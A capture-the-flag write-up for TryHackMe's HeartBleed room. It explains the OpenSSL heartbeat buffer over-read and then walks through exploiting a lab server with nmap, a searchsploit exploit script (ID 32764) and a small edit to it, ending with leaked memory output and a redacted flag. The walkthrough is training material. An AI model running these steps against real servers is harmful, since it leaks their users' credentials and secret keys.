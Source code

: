 # THM: HeartBleed

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Image      | <img src="../../images/write_ups/try_hack_me/heartbleed.png" alt="HeartBleed" width="90"/> |
| Room       | HeartBleed                                   |
| URL        | https://tryhackme.com/room/heartbleed        |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- Python
- SearchSploit

## Description

SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

## Process

This room has 2 parts. The first is information about the HeartBleed bug and what is causing it. The room provides a high level summary of how the bug can exploit memory on the server. There are a few external links that give more information and explain how this is a massive vulnerablity. The 2nd task wants you to exploit HeartBleed on a server to get the flag.

## Task 1 Background Information

I spent a lot of time reading the material and trying to understand the bug. I had to look up more information and I thought I would just provide some additional insights into what is needed to exploit this vulnerability.

It is obvious that this exploit needs SSL or TLS. Since TLS is the successor of SSL and SSLv3 is totally broken I will just talk about using TLS for an https connection in this room.

In order to perform the heartbeat request (the request that causes the HeartBleed attack), you need to have a connection with the server. Below are the minimum requests and responses for a HeartBleed attack.

| Step | Description | Who sends it |
| ---- | ----------- | ------------ |
| 1. | **ClientHello** handshake connection request | **Attacker -> Server** |
| 2. | **ServerHello** (plus cert, etc.) handshake connection response | **Server -> Attacker** |
| 3. | **(TLS Handshake completes)** - now both sides can send encrypted data |  |
| 4. | **Heartbeat** request with **fake large payload length** | **Attacker -> Server** |
| 5. | **Heartbeat** response leaking memory past intended payload | **Server -> Attacker** |

Steps 4 and 5 are at the heart (no pun intended) of this room.

### How the request and response should work

It turns out that a heartbeat request is very simple. The 2 properties that matter are the content and the length of the content. So I send a heartbeat request with these 2 properties to a server:

Content: 'Hello'
Content-Length: 5

The server is suppose to look at the Content-Length property and create a buffer of that length in memory. Then it copies the text in the Content property into that buffer that it just created. Then it copys that buffer into a response and sends the response back to me so that our TLS connection stays alive.

### How HeartBleed works

This vulnerability exists because it trusted user input. In my example above I said that my Content-Length was 5 bytes. But what if I had the same Content and I said that my Content-Length was 65,535 bytes?

This is where the vulnerability. It doesn't check the length of my Content it just blindly trusts that I am sending the correct Content-Length for my Content.

In this case, the server will allocate a 65,535 byte buffer in memory. Keep in mind that deallocated memory still has the values that were in those addresses when the memory was allocated. Then it will copy over the 5 bytes in my Content property. Then it will read all the bytes from the buffer (all 65,535 of them) and copy them to the response that goes back to me.

So now I have all kinds of things that were in memory when I made my request. It turns out that this can be usernames, passwords, sensitive chat logs and emails, environment variables, secret keys for X.509 certificates, critical business documents and more.

## Task 2 Protecting Data In Transit

I added the ip address of the machine to my host file with the alias of target.thm. So the command was:

`echo "10.10.121.123   target.thm" >> /etc/hosts`

I then ran my usual starting nmap command on this machine:

`nmap -p- -Pn -T5 -v target.thm`

Port 443 is up. I didn't bother with the other ports. I knew I needed to exploit the https connection on the box.

I used searchsploit to see if it had a script ready to go. I ran the following:

`searchsploit heartbleed`

It had a few scripts, they were a bit out of date. I expected it since HeartBleed is now a decade old at the time of this writing.

I copied over the first one that was provided by searchsploit to my current directory witht the following command:

`searchsploit 32764 -m`

The `-m` option moves the script to my current directory. 32764 is the exploit id in searchsploit.

I had to comment out 1 line to get this to work. Line 32 is the issue, I changed it from this:

`version.append(['SSL 3.0','03 00'])`

To this:

`#version.append(['SSL 3.0','03 00'])`

Again, SSLv3 is broken and so most servers do not support it. Commenting it out allows the script to try the 3 TLS methods.

I now run the script with python2 (the print calls don't have brackets and that only works with python2). Here is how I run it:

`python 32764.py target.thm -p 443 > output.txt`

Looking through the output.txt file, I see the flag on the right hand side as I scroll down. Here is the output with the key redacted:

```bash
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 6E 67 74 68  ....#.......ngth
  00e0: 3A 20 37 35 0D 0A 43 6F 6E 74 65 6E 74 2D 54 79  : 75..Content-Ty
  00f0: 70 65 3A 20 61 70 70 6C 69 63 61 74 69 6F 6E 2F  pe: application/
  0100: 78 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E  x-www-form-urlen
  0110: 63 6F 64 65 64 0D 0A 0D 0A 75 73 65 72 5F 6E 61  coded....user_na
  0120: 6D 65 3D 68 61 63 6B 65 72 31 30 31 26 75 73 65  me=hacker101&use
  0130: 72 5F 65 6D 61 69 6C 3D 68 61 78 6F 72 40 68 61  r_email=haxor@ha
  0140: 78 6F 72 2E 63 6F 6D 26 75 73 65 72 5F 6D 65 73  xor.com&user_mes
  0150: 73 61 67 65 3D 54 48 4D 7B 00 00 00 00 00 00 00  sage=THM{#######
  0160: 00 00 00 7D AF 7B 00 28 AF 84 87 27 59 A9 CF EB  ###}.{.(...'Y...
  0170: 74 86 D3 07 00 00 00 00 00 00 00 00 00 00 00 00  t...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
'''
